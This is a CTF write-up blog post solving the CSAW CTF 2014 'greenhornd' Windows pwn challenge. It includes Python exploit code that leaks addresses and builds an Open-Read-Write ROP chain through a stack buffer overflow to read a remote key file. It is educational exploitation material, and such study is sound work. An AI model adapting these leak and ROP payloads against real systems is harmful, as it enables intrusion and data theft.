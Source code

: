 ```yaml
---
layout: post
title: "CSAW CTF 2014: greenhornd Writeup"
date: 2020-09-05
tags: [x86, Pwn] 
description: The post explains how to solve the greenhornd challenge from CSAW CTF 2014. 
---
```


# Introduction

Nowadays, I'm trying to learn windows exploitation by reading the tutorials and solving tasks that recommended by open-source [seminar](https://github.com/leesh3288/WinPwn/tree/master/Seminar/2019_Winter_WinPwn) written with the Korean language (Thanks to google translate) besides other external resources. So, I decided to provide writeups for the chosen challenges existed within the seminar repository.

Consequently, I am going today to solve my first 32-bit windows pwn challenge within window10 which is greenhornd from CSAW CTF 2014 using the Open-Read-Write ROP chain to read the file named key from a remote server. Additionally, I will use [AppJailLauncher](https://www.trailofbits.com/expertise/appjaillauncher/) to launch the exe file for providing a game server experience using the following command.

> CommandLine
{:.filename}
{% highlight bash %}
AppJailLauncher.exe /network /key:key /port:9998 /timeout:30 greenhornd.exe
{% endhighlight %}


# Finding the Vulnerability

First of All, I executed the greenhornd exe, and the following text got printed to the screen which asks you to find the secret key and it suggested that you can look at strings within the binary using strings utility or IDA disassembler (sorry I will use R2 cutter xD ).

 ![img]({{'/assets/images/greenhornd/pwn1.PNG' | relative_url }}){: .center-image }*(**Figure[1]**)*

So, I started to check the strings using Cutter and find the secret password which is **GreenhornSecretPassword!!!** as appear in **Figure[2]**.

![img]({{'/assets/images/greenhornd/pwn2.PNG' | relative_url }}){: .center-image }*(**Figure[2]**)*

After inputting the secret password, a menu with the following options printed to the screen as appear in **Figure[3]**.

![img]({{'/assets/images/greenhornd/pwn3.PNG' | relative_url }}){: .center-image }*(**Figure[3]**)*

As appear in **Figure[4]**, These options are represented in the disassembly by switch table for achieving the jump to certain function based on your choice. However, I'm just interested in only two options which are **(A)SLR** and **(V)ulnerability**.

![img]({{'/assets/images/greenhornd/pwn4.PNG' | relative_url }}){: .center-image }*(**Figure[4]**)*


Let's start with the (A)SLR option, It prints text about Address Layout Randomization in windows beside give us two anonymous addresses as appear in the next figure.

![img]({{'/assets/images/greenhornd/pwn5.PNG' | relative_url }}){: .center-image }*(**Figure[5]**)*

So let us back to the disassembler to figure out what these two addresses. As you see inside the red-colored rectangle block within **Figure[6]**, The function **A_SLR** gets the module handle of the current process through WinApi **GetModuleHandle** which is the same as the ImageBase address of exe in memory then save ImageBase subtracted by value **0x400000** in the variable on the stack. Afterward, It sends the **ImageBase-0x400000** and the address holding it to the function **WriteAddressesToStdout** to print them respectively as appear in a blue-colored rectangle block.

![img]({{'/assets/images/greenhornd/pwn6.PNG' | relative_url }}){: .center-image }*(**Figure[6]**)*

Now we are done with **(A)SLR**, So let us start checking the **(V)urlnerability** option. As you see in the following screenshot, there is a text that asks you to input 1024 characters with some constraints in the input string.

![img]({{'/assets/images/greenhornd/pwn7.PNG' | relative_url }}){: .center-image }*(**Figure[7]**)*

Let's jump to the **Vulnerable_Function** to analyze it and check what the type of vulnerability it contains. The instructions within the red-colored block in **Figure[8]** holds responsibility for reading a string from stdin to the buffer at stack address equal to **(ebp-400h)** with a max length of **2048** characters. Therefore, The classic buffer overflow vulnerability exists as the max size of the string exceeds the size of the buffer specified for the input string which is **1024** characters. 

However, The function can exit without returning which will prevent the execution of overwritten saved return address if the string does not achieve a certain constraint. As appear in the blue-colored block which is responsible for the last-mentioned constraint, The instructions check if the **1st character** equal to **'C'** or **2nd character** equal to **'S'** or **3rd character** is equal to '**A'** or **4th character** equal to **'W'** to return otherwise the function exit without returning.

![img]({{'/assets/images/greenhornd/pwn8.PNG' | relative_url }}){: .center-image }*(**Figure[8]**)*


# Exploiting the vulnerable function

Based on previous analysis, We concluded that the **Vulnerable_Function** contains Buffer overflow vulnerability and we will exploit that vulnerability to build our Open-Read-write ROP chain. So let's define our stack layout that achieves the goal of reading the file named **key** then prints it content to stdout.

As appear in **Figure[9]**, The left-hand side represents the stack state before overflowing while The right-hand side of the diagram represents the stack layout after overflowing with appropriate values that mirror the Open-Read-Write ROP chain. 

The Blue-colored block within the following Figure represents functions/ROP Gadgets address. On the other hand, The orange blocks represent the parameters for the functions. Additionally, The grey text within the blocks represents the value of that block. 

Also, The parameters labeled with the same number as a certain function are parameters of this function. 

![img]({{'/assets/images/greenhornd/pwn9.png' | relative_url }}){: .center-image }*(**Figure[9]**)*

As you see in the previous diagram, There are missing addresses that will be needed to build our ROP chain. These values are OpenFile, ReadFile, WriteToStdout, ImageBase, and finally stack address that represents InputAddress.

As appear in **Figure[5]**, The **(A)SLR** option leak the **ImageBase-0x400000** and stack address that hold it. So, We will use them to estimate ImageBase by adding the same subtracted value. Also, InputAddress will be calculated by adding the offset(between the stack address holding **ImageBase-0x400000** and the InputAddress) which equals **0x3F4** to stack leaked address as you see in the following code snippet.

> First leakage stage in python
{:.filename}
{% highlight Python %}
def First_Leakage_Stage(conn):
 print("[x] working on First Leakage Stage...")
 try: 
  conn.sendline(b'GreenhornSecretPassword!!!')
  conn.sendline(b'A')
  conn.recvuntil("ASLR slide is: ").decode()
  line = conn.recvuntil(".").decode()
  Base_address = int(line.split(" ")[0],16)+0x400000
  InputAddress = int(line.split(" ")[8].replace(".",""),16)-0x3f4
  print("[+] First Leakage Stage succeeded... ")
  return Base_address,InputAddress
 except:
     sys.exit(0)
{% endhighlight %}


As appear in **Figure[6]**, There is a function called **WriteToStdout** that is responsible for writing to Stdout. It takes only one parameter that represents the address of string/bytes to write it to screen and it's located at address equals **ImageBase+0x14d0**.

Now we will work on leaking the addresses of **OpenFile** and **ReadFile** WinApi functions, The ReadFile is imported in the binary file which means its address saved inside IAT at address equal to **ImageBase+0x2014**.

So, Our plan will be based on overflowing the **Vulnerable_Function** to pass the IAT entry address of ReadFile function(**ImageBase+0x2014**) as a parameter to WriteToStdout As appear in **Figure[10]**.

![img]({{'/assets/images/greenhornd/pwn10.png' | relative_url }}){: .center-image }*(**Figure[10]**)*

In the following code snippet, We will receive the ReadFile Function address from Stdout. Then we will estimate the OpenFile function which equals **Readfile address + 0x35350**.

> Second leakage stage in python
{:.filename}
{% highlight Python %}
def Second_Leakage_Stage(conn,ImageBase):
 print("[x] working on Second Leakage Stage...")
 try:   
  conn.sendline(b'V')
  Payload=  b'CSAW'+b'A'*1024
  Payload+= p32(ImageBase+0x14d0) # WriteToStdout function
  Payload+= p32(ImageBase+0x1137) # ret address = vulnerable function
  Payload+= p32(ImageBase+0x2014) # import table entry that hold readfile address within Kernel32.dll
  conn.sendline(Payload)
  conn.recvuntil("with some constraints).\n\n")
  data= conn.recv(4)
  readfile = u32(data.decode())
  openfile = readfile+0x35350
  print("[+] Second Leakage Stage succeeded... ")
  return readfile,openfile
 except: 
  print("[-] Second Leakage Stage Failed... ")
  sys.exit(0)
{% endhighlight %}


Now we have all the addresses we need to construct our ROP chain that defined in **Figure[9]** and we will achieve it by using the following snippet of code.

> Constructing ROP chains
{:.filename}
{% highlight Python %}
def Open_Read_Write(conn,InputAddress,ImageBase,readfile_Fun,openfile_Fun):
 print("[x] reading key file from remote server...")   
 try:
  Payload= b'CSAW'+b'A'*1020 #Bypass condition & overflowing
  Payload+=p32(InputAddress+1056+8) # address to save the returned handle
  Payload+=p32(openfile_Fun) #address of openfile functions
  Payload+=p32(ImageBase+0x1ce8) # mov dword[ebp-8],eax gadget , eax ==> handle
  Payload+= p32(InputAddress+1248)+p32(InputAddress+1184)+p32(0) # openfile parameters , (lpname,structure,null)
  Payload+= p32(readfile_Fun) # readfile function address
  Payload+= p32(ImageBase+0x14d0) # print to screen function
  Payload+= b'b'*4 # (first parameter of readfile)random bytes which will be overwritten with handle value
  Payload+=p32(InputAddress+1084)+p32(100)+p32(0)+p32(0) # buffer+size_of_string+null+null
  Payload+= p32(ImageBase+0x128f) #exit(1) function 
  Payload+= p32(InputAddress+1084) #buffer to be printed to stdout
  Payload+= b'\x00'*100 # buffer values
  Payload+=b'c'*64 #openfile structure
  Payload+=b'key'+b'\x00' #filename
  conn.sendline(Payload)
  conn.recvuntil(".").decode() 
  print("[+] reading key file Succeeded and it contain following text:")
  print(conn.recvall().decode().split("\n")[2])
 except:
      print("[-] Failed to read file name key on remote server... ") 
      sys.exit(0)
{% endhighlight %}

The whole exploit script exists [Here](https://github.com/oviche/WindowsPwn/blob/master/greenhornd/exploit.py).





